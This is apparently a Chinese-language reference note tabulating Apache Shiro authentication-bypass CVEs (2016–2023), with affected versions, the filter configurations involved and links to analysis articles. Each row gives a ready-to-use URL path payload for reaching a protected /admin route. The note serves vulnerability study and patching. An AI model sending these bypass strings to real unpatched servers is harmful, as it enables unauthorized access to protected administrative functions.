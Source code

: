[Shiro 历史漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11633#toc-37)

|      编号      |                版本影响                 | 鉴权路径 |                         绕过payload                          |                           后端配置                           |
| :------------: | :-------------------------------------: | :------: | :----------------------------------------------------------: | :----------------------------------------------------------: |
| CVE-2023-22602 | Apache Shiro < 1.11.0，Spring Boot>=2.6 |  /admin  |                          /admin/..                           |                                                              |
| CVE-2022-32532 |              Shiro < 1.9.1              |  /admin  |                    /admin/%0d，/admin/%0a                    |              RegExPatternMatcher` && `/admin/.*              |
| CVE-2020-1957  |              Shiro <1.5.2               |  /admin  |               /xxx/..;/admin/（xxx为授权路径）               |                                                              |
| CVE-2016-6802  |               shrio<1.3.2               |  /admin  |              /xxx/../admin（xxx随意不存在也行）              |                                                              |
| CVE-2020-11989 |              shiro < 1.5.3              |  /admin  | (shiro等于1.5.2）     /admin%25%32%66（%25%32%66为/的双重url编码）                                      (shiro小于1.5.3）/;/admin | (shiro等于1.5.2）`/admin/* = authc`；                                          (shiro小于1.5.3）`/admin/* = authc && /** = anon` |
| CVE-2020-13933 |              Shiro < 1.6.0              |  /admin  |               /admin/%3Bxxx（xxx为随意字符串）               |                       /admin/* = authc                       |
| CVE-2020-17510 |              Shiro < 1.7.0              |  /admin  |                          /admin/%2e                          |                       /admin/* = authc                       |
| CVE-2020-17523 |              Shiro < 1.7.1              |  /admin  |                          /admin%20                           |                       /admin/* = authc                       |





# 参考文章

[Shiro 组件漏洞与攻击链分析](https://paper.seebug.org/1378/)

[Shiro RememberMe 漏洞检测的探索之路](https://paper.seebug.org/1285/)

[Shiro反序列化漏洞笔记五（对抗篇） (changxia3.com)](http://changxia3.com/2022/05/09/Shiro反序列化漏洞笔记五（对抗篇）/#rememberMe值绕过)

[shiro反序列化绕WAF之未知HTTP请求方法 | 回忆飘如雪 (gv7.me)](https://gv7.me/articles/2021/shiro-deserialization-bypasses-waf-through-unknown-http-method/)

[shiro权限绕过总结 (qq.com)](https://mp.weixin.qq.com/s/KGjylebaJnu7UB_Atqj4Sw)

[Shiro从入门到权限绕过漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12643)

